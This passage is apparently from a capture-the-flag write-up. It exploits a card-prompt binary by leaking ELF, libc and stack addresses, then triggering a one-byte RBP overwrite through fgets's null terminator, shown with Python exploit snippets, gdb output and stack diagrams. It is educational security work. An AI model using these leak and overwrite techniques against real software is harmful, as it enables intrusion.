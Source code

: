 ```python
        _, address = self.show_custom_card_prompt(33)
        self.elf.address = address - self.elf.sym['main']
        _, address = self.show_custom_card_prompt(42)
        self.libc.address = address - (self.libc.sym['__libc_start_main'] + 0x80)

    def setup_stack_addresses(self):
        _, self.addr_stack_answers = self.show_custom_card_prompt(-3)
        self.addr_stack_prompts = self.addr_stack_answers - 0x100
```

Okay, now let's test exploiting the RBP lower byte overwrite:

```python
chall = Challenge(remote_host=REMOTE_HOST)
chall.connect()
chall.setup_elf_and_libc()
chall.setup_stack_addresses()
input('Pause. Attach GDB, and press Enter to continue...')
chall.create_custom_card_prompt(cyclic(1024), 0)
```

We trace the steps in `gdb`, and eventually reach the point where the zero byte
is written:

```c
In file: /root/glibc-2.35/libio/iofgets.c:60
   55      be reported for next read. */
   56   if (count == 0 || ((fp->_flags & _IO_ERR_SEEN) && errno != EAGAIN))
   57     result = NULL;
   58   else
   59     {
 ► 60       buf[count] = '\0';
```

The corresponding stack frame in `create_custom_card()` is as follows:

```yaml
                      before fgets()            after fgets()

00:0000│-410 rsp │ pointer to [prompts]     | (unchanged)
01:0008│-408     │ pointer to [answers]     | (unchanged)
02:0010│-400     │ buffer[1000] start       | aaaaaaab
03:0018│-3f8     │ ...                      | aaacaaad
... ↓
7f:03f8│-018     │ buffer[1000] end         | xaajyaaj
80:0400│-010     │ other local              | zaakbaak
81:0408|-008     | other local              | caakdaak
82:0410| 000 rbp | other local              | eaakfaak
---
       |+008     | main_loop rbp            | main_loop rbp & ~0xff
       |+010     | pointer to main_loop+217 | (unchanged)
```

As we continue process execution beyond this point, it crashes, and as we try
re-tracing the steps, we realize that due to address space randomization, the
amount by which the RBP being shifted is random: `0x00`, `0x10`, ..., `0xf0`,
each one crashing at a different point, with the varying state of stack and
registers at crash.
